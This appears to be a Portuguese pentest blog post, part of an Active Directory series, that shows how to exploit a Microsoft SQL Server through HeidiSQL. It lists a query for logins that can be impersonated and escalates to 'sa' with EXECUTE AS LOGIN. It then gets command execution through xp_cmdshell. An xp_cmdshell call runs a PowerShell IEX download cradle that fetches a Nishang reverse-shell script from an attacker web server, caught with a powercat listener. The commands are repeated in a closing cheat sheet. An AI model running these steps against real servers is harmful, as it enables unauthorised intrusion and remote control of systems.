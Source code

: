 ```yaml
---
title: "Active Directory - HeidiSQL"
tags: [Windows, Active Directory]
categories: "Active Directory"
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidisql.png)

# Considerações Iniciais

Agora, vamos fazer o SQL de maneira diferente, através do acesso que temos nele, utilizando o HeidiSQL

Link para download do HeidiSQL

[HeidiSQL](https://www.heidisql.com/download.php)

E claro, obviamente, esconderei todas as menções para qual ambiente estou realizando a enumeração, aqui é apenas para fins didáticos!

# Conectando na Database

Uma vez que verificamos que temos uma database acessível lá no PowerUpSQL agora é hora de verificarmos se temos acesso a ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi.png)

Conseguimos conexão!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi1.png)

# Explorando o servidor

Uma vez conectados agora é hora de iniciar a exploração desse servidor

## User Impersonation

Uma vez logados no HeidiSQL, devemos procurar por usuários que temos poder de impersonificar, no caso rodar como se fosse 'runas', os comandos para verificar isso são:

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi2.png)

Fontes:

[Link 1](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/)

[Link 2](https://cheats.philkeeble.com/active-directory/mssql)

Verificamos que podemos impersonificar dois usuários, o `sa` e o `dbuser`

Então vamos lá!

## Remote Code Execution

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi3.png)

Temos RCE!

Agora é só pegar um reverse shell ali!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Executamos a chamada no HeidiSQL e recebemos a reverse shell!

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1''))'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi4.png)

Show!

# Conclusão

Então agora terminamos de explorar o MSSQLServer por outro modo, através do HEIDISql.

## Comandos Utilizados

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

`powercat -l -v -p 443 -t 1000`

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1''))'
```
